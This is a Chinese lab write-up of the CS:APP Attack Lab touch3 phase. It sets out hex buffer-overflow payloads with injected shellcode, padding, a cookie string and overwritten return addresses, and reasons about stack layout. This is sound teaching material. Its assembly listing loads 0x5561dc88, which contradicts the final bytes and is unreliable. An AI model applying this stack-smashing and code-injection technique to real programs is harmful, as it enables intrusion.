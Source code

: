 payload
```
48 c7 c7 97 dc 61 55
68 fa 18 40 00
c3
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 
35 39 62 39 39 37 66 61 00
78 dc 61 55
```

如果这样构造payload，会因为总结2中的覆盖问题，导致传入的cookie被覆盖掉，对此的解决办法有两个：把传入的cookie字符串放在低地址上，或者手动将栈抬高

重新排列上面的payload

```
48 c7 c7 97 dc 61 55 68
fa 18 40 00 c3 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 35
39 62 39 39 37 66 61 00
78 dc 61 55
```

如果采用第一种方法，这里栈帧内能够写入字符串的地址范围为0x5561dc78~0x5561dca0，而后面需要占用的语句分别为

```
touch3函数中：

push rbx 8个字节 覆盖掉 78 dc 61 55

call hexmatch 8个字节  覆盖掉 39 62 39 39 37 66 61 00

hexmatch函数中： 

push r12 8个字节  覆盖掉 41 41 41 41 41 41 41 35

push rbp 8字节  覆盖掉 41 41 41 41 41 41 41 41

push rbx 8字节  覆盖掉 fa 18 40 00 c3 41 41 41
```

![image-20210205163344966](C:\Users\xiaofei01\AppData\Roaming\Typora\typora-user-images\image-20210205163344966.png)

重新构造payload，字符串放在0x5561dc78，shellcode放在0x5561dc88

```
mov $0x5561dc88,%rdi
pushq $0x4018fa
ret
```

```
35 39 62 39 39 37 66 61 
00 41 41 41 41 41 41 41 
48 c7 c7 78 dc 61 55
68 fa 18 40 00
c3
41 41 41 41 41 41 41 41
41 41 41
88 dc 61 55
```
